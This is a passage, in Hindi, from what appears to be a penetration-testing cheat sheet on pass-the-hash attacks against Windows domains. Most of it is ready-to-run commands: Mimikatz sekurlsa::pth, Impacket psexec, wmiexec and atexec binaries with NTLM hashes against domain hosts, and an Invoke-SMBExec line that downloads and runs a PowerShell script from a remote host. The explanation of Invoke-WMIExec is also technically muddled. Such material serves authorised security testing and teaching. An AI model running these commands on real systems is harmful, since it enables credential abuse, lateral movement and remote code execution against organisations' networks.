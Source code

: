 **इसे व्यवस्थापक के रूप में चलाना चाहिए**
```bash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:domain.tld /ntlm:NTLMhash /run:powershell.exe"'
```
यह एक प्रक्रिया शुरू करेगा जो मिमीकैट्स लॉन्च करने वाले उपयोगकर्ताओं के नाम होगी, लेकिन LSASS में सहेजे गए क्रेडेंशियल्स मिमीकैट्स पैरामीटर्स के अंदर होंगे। फिर, आप उस उपयोगकर्ता के रूप में नेटवर्क संसाधनों तक पहुंच सकते हैं (`runas /netonly` ट्रिक के समान, लेकिन आपको प्लेन-टेक्स्ट पासवर्ड को जानने की आवश्यकता नहीं होती है)।

### लिनक्स से पास-द-हैश

आप लिनक्स से पास-द-हैश का उपयोग करके विंडोज मशीनों में कोड निष्पादन प्राप्त कर सकते हैं।\
[**यहां जानने के लिए एक्सेस करें।**](../../windows/ntlm/broken-reference/)

### Impacket विंडोज कंपाइल्ड टूल्स

आप यहां से विंडोज के लिए impacket बाइनरी डाउनलोड कर सकते हैं: [https://github.com/ropnop/impacket\_static\_binaries/releases/tag/0.9.21-dev-binaries](https://github.com/ropnop/impacket\_static\_binaries/releases/tag/0.9.21-dev-binaries).

* **psexec\_windows.exe** `C:\AD\MyTools\psexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.my.domain.local`
* **wmiexec.exe** `wmiexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local`
* **atexec.exe** (इस मामले में आपको एक कमांड निर्दिष्ट करनी होगी, cmd.exe और powershell.exe एक इंटरैक्टिव शेल प्राप्त करने के लिए मान्य नहीं हैं) `C:\AD\MyTools\atexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local 'whoami'`
* और भी कई Impacket बाइनरी हैं...

### Invoke-TheHash

आप यहां से पावरशेल स्क्रिप्ट प्राप्त कर सकते हैं: [https://github.com/Kevin-Robertson/Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)

#### Invoke-SMBExec
```
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```
#### इनवोक-डब्ल्यूएमआईएक्सेक्यूट

यह टेक्निक एक पावरशेल स्क्रिप्ट है जिसका उपयोग विंडोज सिस्टम पर एनटीएलएम एक्सेक्यूशन को शुरू करने के लिए किया जाता है। यह टेक्निक एक रिमोट मशीन पर एक्सेक्यूशन को संभव बनाती है जब एक वैध उपयोगकर्ता क्रेडेंशियल्स उपलब्ध होती हैं। यह टेक्निक एक एनटीएलएम हैश का उपयोग करती है जो उपयोगकर्ता के पासवर्ड को सुरक्षित रूप से संग्रहीत करता है और उपयोगकर्ता के नाम और पासवर्ड को रिमोट मशीन पर भेजती है। इस तरीके का उपयोग करके, हैकर रिमोट मशीन पर एक्सेक्यूशन को प्राप्त कर सकता है और उसके लिए विशेषाधिकार प्राप्त कर सकता है।

उदाहरण:
```powershell
Invoke-WMIExec -Target 192.168.1.100 -Username Administrator -Password P@ssw0rd
```

